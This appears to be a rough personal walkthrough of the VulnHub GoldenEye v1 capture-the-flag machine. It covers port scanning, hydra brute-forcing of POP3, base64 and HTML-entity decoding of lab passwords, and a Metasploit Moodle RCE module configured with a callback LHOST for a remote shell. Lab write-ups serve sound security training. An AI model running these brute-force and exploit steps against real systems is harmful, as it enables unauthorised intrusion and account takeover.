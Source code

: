```yaml
---
{"tags":["vulnhub","walkthrought"],"dg-publish":true,"permalink":"/ctf/vulnhub/golden-eye-vulnerability/","dgPassFrontmatter":true,"noteIcon":""}
---
```


	
	Goldenn eye v1 passthrough
	
	PORT      STATE SERVICE
	25/tcp    open  smtp
	80/tcp    open  http
	55006/tcp open  unknown
	55007/tcp open  unknown
	
	encoded password -InvincibleHack3r
	
	user	password
	boris	secret1!
	natalya	bird   
	xenia  RCP90rulez!
	doak 	goat
	username: dr_doak
	password: 4England!
	hash 	eFdpbnRlcjE5OTV4IQ==
	admin  xWinter1995x!
	
	arp
```
	sudo netdiscover -r 192.168.0.0/24 -i eth0
```
	./nmapAutomator.sh 192.168.0.199 All
	192.168.0.199/terminal.js
	brup pro
	decoder option 
	&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
	
	InvincibleHack3r
	
	user	password
	boris	InvincibleHack3r
	http://192.168.0.199/sev-home/
	
	nc 192.168.0.199 55006
	LIST
	
	user boris
	pass secret1
	
	http://severnaya-station.com/gnocertdir
	mozilla proxy or host name
	
	sudo nano /etc/hosts
	192.168.0.199                 severnaya-station.com/gnocertdir
	
	WEBPAGE 
	VIEW PAGE SOURCE  INNSPECT 
	
	INDEX.JS
	telnet 192.168.0.199 55007
	
	sudo apt install hydra
	
	sudo apt install wordlists
	
	hydra -l boris -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 192.168.0.199 -s 55007 pop3
	
	nc 192.168.0.199 55007
	user boris
	pass secret1
	LIST
	+OK 3 messages:
	1 544
	2 373
	3 921
	RETR 1
	RETR 2
	RETR 3
	
	
	hydra -l doak -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 192.168.0.199 -s 55007 pop3
	
	nc 192.168.0.199 55007
	user doak
	pass secret1
	LIST
	+OK 3 messages:
	1 544
	2 373
	3 921
	RETR 1
	RETR 2
	RETR 3
	http://severnaya-station.com/gnocertdir
	username: dr_doak
	password: 4England!
	
	search   s3cret .txt
	http://severnaya-station.com/dir007key/for-007.jpg
	save file
	sudo apt install exiftool
	exiftool for-007.jpg 
	search image discription >>>>> eFdpbnRlcjE5OTV4IQ==
	https://www.base64decode.org/
	eFdpbnRlcjE5OTV4IQ==
	      decode
	xWinter1995x!
	
	http://severnaya-station.com/
	admin  xWinter1995x
	site administration>Plugins>Text editor>manage editor>
	Pspellshell
	search google pspell shell exploit
	
	msfconsole
	search moodle
	use exploit/multi/http/moodle_spelling_path_rce
	choose zero
	show info
	options
	set PASSWORD xWinter1995x!
	set RHOSTS severnaya-station.com
	set targeturi /gnocertdir
	set LHOST 192.168.0.181
	control l key press
	options
	run
	https://github.com/jseidl/GoldenEye
	service tor start
	
	sudo apt-get install etherape
	sudo etherape